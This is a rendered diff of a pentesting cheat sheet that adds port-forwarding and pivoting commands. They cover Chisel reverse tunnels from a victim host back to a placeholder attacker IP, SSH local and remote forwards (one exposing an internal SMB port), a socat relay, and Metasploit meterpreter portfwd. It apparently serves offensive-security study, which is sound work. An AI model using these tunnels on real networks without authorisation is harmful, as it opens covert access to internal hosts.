

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Pivot, Tunneling & Port Forwarding/pivot_portforwarding_cheat_sheet.md, the part around the change. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

`````diff
--- a/Pivot, Tunneling & Port Forwarding/pivot_portforwarding_cheat_sheet.md
+++ b/Pivot, Tunneling & Port Forwarding/pivot_portforwarding_cheat_sheet.md
@@ -109,3 +109,53 @@ $ sudo apt-get install sshuttle
 $ sudo sshuttle -r <user>@<IP-Victim1> <IP-Network1>/<subnet> -v
 ````
 With this command, sshuttle creates an entry in our iptables to redirect all traffic to the <IP-Network1>/<subnet> network through the pivot host.
+
+# Port Forwarding
+
+The concept of “Port Forwarding” is the forwarding of ports, that is, when we receive a connection on a specific port, we forward that connection to another port on a specific host.
+
+## Chisel
+
+Attacker Machine
+````
+$ ./chisel server -p 8000 --reverse
+$ ./chisel server --reverse
+````
+Local PortForwarding (Victim Host)
+````
+> chisel client <IP-Attcker>:<Port> R:<PortForward_Attacker>:127.0.0.1:<PortForward_Victim>
+````
+Remote PortForwarding (Victim Host - Internal Network)
+````
+> chisel client <IP-Attcker>:<Port> R:<PortForward_Attacker>:<IP-InternalNetworkHost>:<PortForward_InternalNetworkHost>
+````
+
+## SSH
+
+Local Port Forwarding
+````
+$ ssh -N -L <IP-Interface(Optional):<Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
+$ ssh -N -L <Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
+$ ssh -L <IP-Interface(Optional):<Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
+$ ssh -L <Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
+$ ssh -L 1234:127.0.0.1:1234 <user>@<IP-Victim>
+$ ssh -L 1234:<IP-InternalNetworkHost>:1234 <user>@<IP-Victim>
+````
+Remote Port Forwarding
+````
+$ ssh -N -R <IP-VictimSSH>:<Port-VictimSSH>:<IP-InternalNetworkHost>:<Port-Victim> <user>@<IP-Victim>
+$ ssh -N -R 192.168.67.1:4445:192.168.67.128:445 user@192.168.67.1
+````
+The -N can be omitted, as it doesn't enable ssh command execution, it's there to be useful when forwarding ports.
+
+## Socat
+````
+$ socat TCP-LISTEN:[victim_port],fork,reuseaddr TCP:[redirect_ip]:[exposed_port]
+````
+
+## Metasploit
+
+In this case, you need the meterpreter shell
+````
+portfwd add –l <local_port_attacker> –p <port_victim> –r <target_host>
+````
`````
